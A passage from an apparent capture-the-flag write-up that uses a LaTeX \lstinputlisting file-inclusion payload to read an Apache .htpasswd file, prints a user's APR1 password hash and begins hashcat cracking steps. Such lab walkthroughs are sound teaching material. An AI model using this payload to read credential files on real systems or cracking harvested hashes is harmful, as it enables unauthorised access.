 ![Untitled](images/Untitled%2015.png)

→ As we can see we have an apache login alert. We should consider looking for a `.htaccess` file which should contain the hashes of the users who can login.

Thanks to `/etc/apache2/sites-enables/000-default.conf` file we know the directory where the dev app is stored: `/var/www/dev` . We can use our initial LFI to gather the `/var/www/dev/.htpasswd` file.

```bash
$ \lstinputlisting{/var/www/dev/.htpasswd} $

vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

![Untitled](images/Untitled%2016.png)

→ We can use `hashcat` to crack this hash. To do so:

- store the hash in a txt file in this format:

```bash
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```
